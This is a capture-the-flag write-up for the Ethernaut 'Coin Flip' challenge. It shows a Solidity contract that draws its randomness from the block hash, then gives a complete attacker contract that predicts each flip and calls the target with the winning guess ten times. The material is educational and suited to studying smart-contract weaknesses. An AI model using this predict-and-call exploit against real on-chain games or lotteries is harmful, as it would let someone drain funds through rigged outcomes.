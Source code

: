 # 03. Coin Flip

To win this challenge we must guess correctly the outcome of a coin flip 10 times in a row.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## Vulnerability

This contract uses block hash as a source of entropy. This is a very bad practice as any user or miner can take advantage
of the contract false randomness to gain an advantage.

This can be done either from JavaScript or Solidity.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  address myContract;

  constructor (address _myContract) {
      myContract = _myContract;
  }
  
  function flip() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number -1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    
    (bool success, bytes memory rvalue) = myContract.call(abi.encodeWithSignature("flip(bool)", side));
    
    if (success == false) {
        revert("Call did not succeed");
    }
    
    return abi.decode(rvalue, (bool));
    
  }
}
```

Calling the flip function on the previous contract will issue a call to the target contract with the correct outcome as a guess.
All there is to do is to call it ten times in a row and win the challenge !

You can do so either from Javascript or directly from your browser using Remix for example.

